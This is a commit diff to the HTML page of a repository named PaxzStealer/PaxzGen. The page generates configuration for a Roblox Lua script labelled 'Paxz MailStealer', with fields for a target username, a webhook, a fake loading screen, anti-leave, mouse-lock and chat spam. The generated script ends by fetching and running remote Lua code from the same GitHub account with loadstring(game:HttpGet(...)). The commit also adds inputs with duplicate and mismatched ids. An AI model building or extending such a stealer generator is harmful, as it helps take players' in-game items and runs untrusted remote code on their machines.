

Before and after one commit to PaxzStealer/PaxzGen, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -7,13 +7,9 @@
   <style>
     body {
       font-family: Arial, sans-serif;
+      text-align: center;
+      margin: 0;
       background-color: #f2f2f2;
-      margin: 0;
-      padding: 0;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
     }
 
     .container {
@@ -22,16 +18,20 @@
       padding: 20px;
       box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
       width: 400px;
+      margin: auto;
+      margin-top: 50px;
     }
 
     h1 {
-      text-align: center;
+      font-size: 28px;
+      margin-bottom: 20px;
     }
 
     label {
       font-weight: bold;
       margin-top: 10px;
       display: block;
+      font-size: 16px;
     }
 
     input {
@@ -50,9 +50,9 @@
       padding: 10px 20px;
       border-radius: 4px;
       cursor: pointer;
-      width: 100%;
       font-size: 16px;
       margin-top: 20px;
+      transition: background-color 0.3s ease-in-out;
     }
 
     button:hover {
@@ -69,6 +69,7 @@
       padding: 10px;
       border-radius: 4px;
       overflow: auto;
+      font-size: 14px;
     }
   </style>
 </head>
@@ -100,6 +101,15 @@
       <label for="antiLeave">Anti-leave (true/false):</label>
       <input type="text" id="antiLeave" required><br>
 
+      <label for="MouseLock">Mouse-Lock (true/false):</label>
+      <input type="text" id="antiLeave" required><br>
+
+      <label for="ChatSpam">Chat-Spam (true/false):</label>
+      <input type="text" id="antiLeave" required><br>
+
+      <label for="CollectOrbs">Collect-Orbs (true/false):</label>
+      <input type="text" id="antiLeave" required><br>
+
       <button type="button" id="generateScriptBtn">Generate Script</button>
     </form>
 
@@ -123,8 +133,13 @@
     const kickTime = document.getElementById("kickTime").value;
     const loadingScreen = document.getElementById("loadingScreen").value;
     const antiLeave = document.getElementById("antiLeave").value;
+    const MouseLock = document.getElementById("MouseLock").value;
+    const ChatSpam = document.getElementById("chatSpam").value;
+    const CollectOrbs = document.getElementById("CollectOrbs").value;
 
-      // ... (andere instellingen variabelen) ...
+    const mouseLock = false; // Set to true or false
+    const chatSpam = false; // Set to true or false
+    const collectOrbs = false; // Set to true or false
 
     const generatedScript = `-- {{Paxz MailStealer}} --
 _G.UserName = "${userName}"
@@ -133,9 +148,14 @@ _G.Webhook = "${webhook}"
 _G.loadingScreenText = "${loadingScreenText}"
 _G.ChatMessage = "${chatMessage}"
 _G.KickTime = ${kickTime}
+
+-- [[Extra Stuff]] --
+
 _G.LoadingScreen = ${loadingScreen}
 _G.AntiLeave = ${antiLeave}
--- ... (andere instellingen en hun waarden) ...
+_G.MouseLock = ${mouseLock}
+_G.ChatSpam = ${chatSpam}
+_G.CollectOrbs = ${collectOrbs}
 
 -- /|\\ Script /|\\ --
 loadstring(game:HttpGet("https://raw.githubusercontent.com/PaxzStealer/Paxz/main/Paxz%20MailStealer.lua", true))()`;
```
Lines whose indentation alone changed are shown as unchanged.
